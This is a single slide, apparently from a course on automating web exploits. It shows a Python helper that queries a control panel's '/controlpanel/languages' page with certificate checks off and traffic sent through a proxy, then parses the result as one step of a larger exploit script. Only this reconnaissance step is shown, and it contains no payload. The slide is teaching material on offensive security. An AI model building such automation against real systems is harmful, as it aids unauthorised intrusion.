

Web (cont.)
Basic Web : Automating Web Exploits
Next, we add a language
def add_new_lang(target_url, s):
    # check if language with ID 1 already exists
    res = s.get(target_url + "/controlpanel/languages",
            verify=False,
            proxies=PROXIES)
    res = res.text
    start_index = res.find(":languages=\"'") + 13
    end_index   = res.find("'", start_index)
    languages = res[start_index:end_index].replace("\\&quot;", "\"").strip()
    languages_json = json.loads(languages)
    for language in languages_json:
        if(language["id"] == 1):
            language_id = language["id"]
            language_name = language["name"]
            print(f"[*] A language '{language_name}' with ID {language_id} already exists..")
            language_id = language["id"]
            return language_id
    ...
25